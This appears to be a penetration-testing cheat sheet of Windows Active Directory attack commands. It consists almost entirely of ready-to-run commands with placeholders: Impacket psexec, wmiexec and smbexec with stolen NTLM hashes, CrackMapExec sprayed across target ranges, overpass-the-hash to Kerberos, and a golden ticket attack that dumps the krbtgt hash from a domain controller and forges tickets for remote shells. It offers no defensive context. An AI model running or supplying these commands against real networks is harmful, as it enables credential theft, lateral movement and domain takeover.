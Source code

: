 ### Pass-the-Hash Techniques
```bash
# PSExec with NTLM hash
python3 /usr/share/doc/python3-impacket/examples/psexec.py <domain>/<username>@<target> -hashes <lm-hash>:<nt-hash>

# WMIExec with hash (stealthier)
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py <domain>/<username>@<target> -hashes <lm-hash>:<nt-hash>

# SMBExec with hash
python3 /usr/share/doc/python3-impacket/examples/smbexec.py <domain>/<username>@<target> -hashes <lm-hash>:<nt-hash>

# CrackMapExec for multiple targets
crackmapexec smb <target-range> -u <username> -H <nt-hash> --local-auth
crackmapexec smb <target-range> -u <username> -H <nt-hash>
```

### OverPass-the-Hash (NTLM to Kerberos)
```bash
# Get TGT with NTLM hash
python3 /usr/share/doc/python3-impacket/examples/getTGT.py <domain>/<username> -hashes <lm-hash>:<nt-hash>

# Set the ticket
export KRB5CCNAME=<username>.ccache

# Use Kerberos authentication
python3 /usr/share/doc/python3-impacket/examples/psexec.py <domain>/<username>@<target> -k -no-pass
```

### Golden Ticket Attack
```bash
# 1. Get krbtgt hash (requires high privileges)
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py <domain>/<admin-user>:<password>@<dc-ip>

# 2. Extract domain SID
python3 /usr/share/doc/python3-impacket/examples/lookupsid.py <domain>/<username>:<password>@<dc-ip>

# 3. Create golden ticket
python3 /usr/share/doc/python3-impacket/examples/ticketer.py -nthash <krbtgt-hash> -domain <domain> -domain-sid <domain-sid> <fake-username>

# 4. Use the ticket
export KRB5CCNAME=<fake-username>.ccache
python3 /usr/share/doc/python3-impacket/examples/psexec.py <domain>/<fake-username>@<dc-ip> -k -no-pass
```
